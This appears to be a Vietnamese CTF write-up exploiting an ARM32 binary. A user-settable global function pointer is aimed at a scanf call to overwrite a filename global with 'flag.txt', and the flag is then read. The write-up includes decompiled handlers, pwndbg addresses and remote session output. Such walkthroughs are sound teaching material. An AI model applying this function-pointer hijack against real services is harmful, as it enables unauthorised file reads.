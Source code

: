 # Phân tích file

- Là 1 file arm 32bit

# Reverse file

- Run file:

```c
qemu-arm -L /usr/arm-linux-gnueabi ./challenge.elf
```

- Bài có các chức năng chính sau:
    
    ```c
    ███████╗████████╗ ██████╗ ███╗   ██╗██╗  ██╗██╗  ██╗██╗  ██╗
    ██╔════╝╚══██╔══╝██╔═══██╗████╗  ██║╚██╗██╔╝╚██╗██╔╝╚██╗██╔╝
    ███████╗   ██║   ██║   ██║██╔██╗ ██║ ╚███╔╝  ╚███╔╝  ╚███╔╝
    ╚════██║   ██║   ██║   ██║██║╚██╗██║ ██╔██╗  ██╔██╗  ██╔██╗
    ███████║   ██║   ╚██████╔╝██║ ╚████║██╔╝ ██╗██╔╝ ██╗██╔╝ ██╗
    ╚══════╝   ╚═╝    ╚═════╝ ╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝
    Welcome to the new and tops3cr3t stonkz calculator, we can show you information about old stonkz or calculate stonkz based on your assets
    What do you want to do?
    (1 will help you)
    >>>1
    
    ----------------------------------------------------------------
    | Help Menu:                                                    |
    | Each action is associated with an id                          |
    | Just give me an id and necessary values                       |
    |--------------------------------------------------------------|
    |ID     | ACTION                | PARAMS                        |
    |0      | stop                  | no params                     |
    |1      | help                  | no params                     |
    |16     | change calc           | 3 params                      |
    |32     | print stonks          | 3 params                      |
    |48     | show old stonks       | 3 params                      |
    |4919   | calc stonks           | 3 params                      |
    |--------------------------------------------------------------|
    >>>
    ```
    
- Ngoài ra còn có các case sau:
    
    ```c
    int __fastcall switch_case(int a1, int a2, int a3, int a4)
    {
      if ( !file_input )
        strncpy(&file_input, "stonks.txt", 0xBu);
      switch ( a1 )
      {
        case 1056:
          sub_10A30(1056, a2, a3, a4);
          break;
        case 4919:
          sub_10A70(4919, a2, a3, a4);
          break;
        case 16:
          sub_10ABC(16, a2, a3, a4);
          break;
        case 32:
          sub_10B38(32, a2, a3, a4);
          break;
        case 48:
          sub_10B80(48, a2, a3, a4);
          break;
        case 39321:
          sub_10CA8(39321, a2, a3, a4);
          break;
        default:
          puts("Handler does not exist");
          break;
      }
      return 0;
    }
    ```
    
- Ta thấy nó đọc file stonks.txt.
- Case 1056:
    
    ```c
    int __fastcall sub_10A30(int a1, int (*a2)())
    {
      variable = a2;
      return 0;
    }
    ```
    
    - Set variable thành địa chỉ của a2 (Tham số đầu tiên truyền vào hàm)
- Case 4919:
    
    ```c
    int __fastcall sub_10A70(int a1, int a2, int a3)
    {
      variable(a2, a3);
      return 0;
    }
    ```
    
    - Sau khi debug thì mình thấy hàm này sẽ thực hiện hàm tại a2 ở case 1056 với 2 tham số là 2 tham số đầu tiên của hàm 4919.
- Case 48:
    
    ```c
    int sub_10B80()
    {
      int v0; // r3
      FILE *stream; // [sp+14h] [bp-10h]
      _BYTE *ptr; // [sp+18h] [bp-Ch]
    
      stream = fopen(&file_input, "r");
      if ( !stream )
        return 0;
      ptr = malloc(0x28u);
      if ( !ptr )
        exit(1);
      fread(ptr, 1u, 0x28u, stream);
      ptr[39] = 0;
      printf("you already accumulated %s stonks \n", ptr);
      free(ptr);
      v0 = fclose(stream);
      if ( v0 < 0 )
        exit(1);
      return v0;
    }
    ```
    
    - Sẽ đọc file stonks.txt lúc đầu và in ra màn hình.
- Mình bỏ qua các case kia nhé, vì mình không sử dụng.

# Exploit

- Nếu ta có thể overwrite file stonks.txt thành flag.txt rồi gọi case 48 ta sẽ có flag.
- Để có thể nhập flag.txt overwrite stonks.txt ta cần cho a2 thành 1 địa chỉ của hàm nào đó để nhập, ở đây chương trình có hàm scanf.
    
    ```c
    pwndbg> u 0x107cc
     ► 0x107cc    bl     #__isoc99_scanf@plt <__isoc99_scanf@plt>
    
       0x107d0    ldr    r0, [fp, #-0x18]
       0x107d4    ldr    r1, [fp, #-0x14]
       0x107d8    ldr    r2, [fp, #-0x10]
       0x107dc    ldr    r3, [fp, #-0xc]
       0x107e0    bl     #0x108e0 <0x108e0>
    ```
    
- Mình sẽ cho tham số đầu tiên của case 1056 là địa chỉ trên, sau đó cần set 2 thanh ghi r0 và r1 lần lượt là format string (%s) và địa chỉ của file_input.
    - "%s"
        
        ```c
        pwndbg> search "%s"
        challenge.elf   0x111fc andeq  r7, r0, r5, lsr #6 /* '%s' */
        ```
        
    - file_input
        
        ```c
        0x22058 ◂— 'stonks.txt'
        ```
        
- Vậy giờ ta chỉ cần truyền 2 địa chỉ trên vào tham số 1 và 2 của case 4919, sau đó gọi case 48 được flag.
- Ta thấy địa chỉ call scanf được đưa vào variable
    
    ```c
    *R2   0x22050 —▸ 0x10828 ◂— str    fp, [sp, #-4]!
     ► 0x10a50    ldr    r3, [fp, #-0xc]
    ```
    
- Tiếp đến ta setup 2 tham số cho lần call scanf
    
    ```c
    *R0   0x111fc ◂— andeq  r7, r0, r5, lsr #6 /* '%s' */
     R1   0x22058 ◂— 'stonks.txt'
     
     ► 0x10aa4    blx    r3 <0x107cc>
    pwndbg> u 0x107cc
     ► 0x107cc    bl     #__isoc99_scanf@plt <__isoc99_scanf@plt>
    ```
    
    ```c
    ► 0x107cc    bl     #__isoc99_scanf@plt <__isoc99_scanf@plt>
    format: 0x111fc ◂— 0x7325 /* '%s' */
    vararg: 0x22058 ◂— 'stonks.txt'
    ```
    
- Ghi đè thành công
    
    ```c
    pwndbg> x/s 0x22058
    0x22058:        "flag.txt"
    ```
    
- Gọi case 48 get flag
    
    ```c
    [+] Opening connection to flu.xxx on port 20040: Done
    [*] Switching to interactive mode
    >>>you already accumulated flag{gl0bal_st0nkz_and_gl0bal_var1abl3} stonks
    >>>$
    ```
